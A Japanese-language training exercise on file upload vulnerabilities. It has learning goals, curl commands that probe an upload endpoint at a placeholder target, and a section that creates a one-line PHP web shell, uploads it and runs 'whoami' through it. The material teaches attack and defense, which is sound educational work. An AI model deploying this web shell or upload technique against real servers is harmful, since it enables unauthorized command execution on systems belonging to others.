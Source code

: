 ## 演習3: ファイルアップロード脆弱性の発見と悪用

### 学習目標
- ファイルアップロード攻撃の仕組みを理解する
- 様々な回避技術を学ぶ
- Webシェルの概念と危険性を理解する
- 適切なファイル検証の重要性を学ぶ

### 演習3.1: ファイルアップロード機能の調査

#### ステップ1: 基本機能の確認
```bash
# 1. 正常なファイルアップロードのテスト
echo "This is a test file" > test.txt
curl -X POST "http://<target-url>/upload" \
  -F "file=@test.txt"

# 2. アップロードされたファイルの確認
curl "http://<target-url>/uploads/"
```

**質問**: ファイルはどこに保存されますか？アップロードされたファイルに直接アクセスできますか？

#### ステップ2: ファイル制限の調査
```bash
# 1. 大きなファイルのテスト
dd if=/dev/zero of=large.txt bs=1M count=10
curl -X POST "http://<target-url>/upload" \
  -F "file=@large.txt"

# 2. 異なる拡張子のテスト
echo "test" > test.exe
curl -X POST "http://<target-url>/upload" \
  -F "file=@test.exe"
```

**課題**: どのような制限がありますか？エラーメッセージから何がわかりますか？

### 演習3.2: 悪意のあるファイルアップロード

#### ステップ1: Webシェルの作成と投稿
```bash
# 1. 基本的なPHPシェルの作成
echo '<?php system($_GET["cmd"]); ?>' > shell.php

# 2. ファイルのアップロード
curl -X POST "http://<target-url>/upload" \
  -F "file=@shell.php"

# 3. アップロードされたシェルの実行テスト
curl "http://<target-url>/uploads/shell.php?cmd=whoami"
```
